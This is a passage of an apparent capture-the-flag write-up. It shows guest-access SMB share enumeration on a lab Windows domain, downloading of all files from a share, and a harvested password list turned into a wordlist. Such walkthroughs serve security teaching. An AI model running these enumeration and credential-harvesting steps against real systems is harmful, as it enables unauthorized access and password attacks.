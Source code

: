 ```console
$ nxc smb fisher.socmas.corp -u 'guest' -p '' --shares
SMB         10.10.39.152    445    FISHER           [*] Windows 10 / Server 2019 Build 17763 x64 (name:FISHER) (domain:socmas.corp) (signing:True) (SMBv1:False)
SMB         10.10.39.152    445    FISHER           [+] socmas.corp\guest:
SMB         10.10.39.152    445    FISHER           [*] Enumerated shares
SMB         10.10.39.152    445    FISHER           Share           Permissions     Remark
SMB         10.10.39.152    445    FISHER           -----           -----------     ------
SMB         10.10.39.152    445    FISHER           ADMIN$                          Remote Admin
SMB         10.10.39.152    445    FISHER           C$                              Default share
SMB         10.10.39.152    445    FISHER           ChristmasShare  READ
SMB         10.10.39.152    445    FISHER           IPC$            READ            Remote IPC
SMB         10.10.39.152    445    FISHER           NETLOGON                        Logon server share
SMB         10.10.39.152    445    FISHER           SYSVOL                          Logon server share
```

Checking the share using `smbclient`, we see four files in the share and download them.

```console
$ smbclient -U 'guest'%'' '\\fisher.socmas.corp\ChristmasShare'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Dec 16 21:13:45 2024
  ..                                  D        0  Mon Dec 16 21:13:45 2024
  approved.xlsx                       A     9626  Sat Dec  7 17:50:35 2024
  Designer (6).jpeg                   A   315407  Mon Dec 16 20:05:20 2024
  flag.txt                            A       65  Mon Dec 16 20:04:11 2024
  steg.png                            A   239043  Mon Dec 16 20:05:32 2024

                15728127 blocks of size 4096. 6164576 blocks available
smb: \> prompt off
smb: \> mget *
getting file \approved.xlsx of size 9626 as approved.xlsx (27.6 KiloBytes/sec) (average 27.6 KiloBytes/sec)
getting file \Designer (6).jpeg of size 315407 as Designer (6).jpeg (127.8 KiloBytes/sec) (average 115.4 KiloBytes/sec)
getting file \flag.txt of size 65 as flag.txt (0.2 KiloBytes/sec) (average 103.0 KiloBytes/sec)
getting file \steg.png of size 239043 as steg.png (126.7 KiloBytes/sec) (average 111.8 KiloBytes/sec)
```

Inside the `flag.txt` file, we find the first flag for the challenge, and inside the `approved.xlsx` file, we see a list of passwords.

![Password List](password_list.webp){: width="1200" height="600" }

We copy the passwords to create a wordlist as follows:

```console
$ cat passwords.txt
SantaClaus123
RudolphTheRed1
...
SnowGlobe42
FamilyGather2
```
